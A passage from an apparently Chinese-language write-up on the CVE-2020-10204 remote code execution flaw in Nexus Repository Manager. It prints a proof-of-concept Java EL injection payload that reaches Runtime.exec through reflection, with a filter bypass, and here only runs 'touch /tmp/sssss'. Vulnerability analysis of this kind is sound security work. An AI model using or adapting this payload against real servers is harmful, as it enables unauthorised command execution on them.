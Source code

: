 也可以直接知道绕过方法,这里我直接给我rce的poc

    $\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/sssss')}

为什么增加了`\A`还不影响表达式的解析呢,这个我后面说,先构造出完整poc

那么我们找一下哪些接口会使用

![](resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId29.png)
